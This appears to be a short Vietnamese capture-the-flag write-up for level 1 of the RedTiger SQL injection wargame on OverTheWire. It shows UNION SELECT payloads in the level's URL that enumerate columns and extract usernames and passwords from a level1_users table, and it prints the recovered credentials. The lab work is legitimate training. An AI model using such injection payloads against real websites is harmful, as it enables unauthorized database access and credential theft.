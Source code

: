 BÁO CÁO LEVEL 1

##**Mục tiêu của level 1**: Đăng nhập vào được với user Hornoxe

##**Phương pháp**:
	
**B1**:Tìm ra cột chứa dữ liệu username,password mình cần tìm:
	+Sử dụng câu lệnh `union select 1,2,3,...' . Cứ tăng số lên cho đến khi tìm được cột cần tìm
		
	+Kết quả với `http://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,3,4` thấy xuất hiện thêm trên trang web 2 số là `3 và 4`. Chứng tỏ dữ liệu username và password cần tìm nằm trên 2 cột đó

**B2**:Cột chứa dữ liệu đã được xác định. Tiếp theo là truy vấn vào và lấy dữ liệu:

	```sh
	http://redtiger.labs.overthewire.org/level1.php?cat=1%20union%20select%201,2,username,password%20from%20level1_users
	```
	Kết quả:
		username: Horxone
		password: thatwaseasy

			BÁO CÁO KẾT THÚC
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------








